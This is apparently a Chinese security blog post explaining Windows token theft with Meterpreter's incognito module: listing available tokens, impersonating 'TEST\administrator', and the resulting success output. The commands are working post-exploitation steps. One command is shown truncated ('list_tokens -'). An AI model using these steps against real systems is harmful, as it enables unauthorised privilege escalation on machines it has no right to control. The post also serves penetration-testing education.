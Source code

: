 ```yaml
---
title: 窃取用户令牌
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# 窃取用户令牌

1. **使用 `incognito` 模块**
    
    ```bash
    meterpreter > use incognito
    ```
    
    - `incognito` 是 Meterpreter 中的一个模块，允许你查看当前系统中的用户令牌，并模拟其他用户的令牌。
    - 该模块可以列出和模拟当前目标机器上可用的所有用户令牌。
2. **列出可用令牌**
    
    ```bash
    meterpreter > list_tokens -
    ```
    
    - `list_tokens -u` 命令列出了当前目标系统中可用的用户令牌。
    - 你看到的输出是目标机器上所有的用户账户以及它们的相关权限信息，包括：
        - **NT AUTHORITY\LOCAL SERVICE** 和 **NT AUTHORITY\NETWORK SERVICE**：是 Windows 系统上的低权限服务账户。
        - **NT AUTHORITY\SYSTEM**：是 Windows 系统中的高权限账户，拥有最高的系统访问权限。
        - **TEST\administrator** 和 **WIN2008\Administrator**：是两个本地或域用户账户，通常是管理员账户。
3. **模拟 `TEST\administrator` 用户**
    
    ```bash
    meterpreter > impersonate_token "TEST\administrator"
    ```
    
    - `impersonate_token "TEST\administrator"` 命令使 Meterpreter 会话模拟 `TEST\administrator` 用户的令牌。
    - 如果成功模拟了该用户的令牌，你将获得该用户的权限，这意味着你将能够以 `TEST\administrator` 用户的身份执行操作，拥有该账户的权限。
4. **成功模拟令牌**
    
    ```bash
    [+] Delegation token available
    [+] Successfully impersonated user TEST\administrator
    ```
    
    - 这意味着令牌模拟操作已经成功完成，当前 Meterpreter 会话拥有 `TEST\administrator` 用户的权限。
    - 可以执行如查看和修改文件、执行命令、访问其他资源等操作，所有这些都将作为 `TEST\administrator` 用户执行。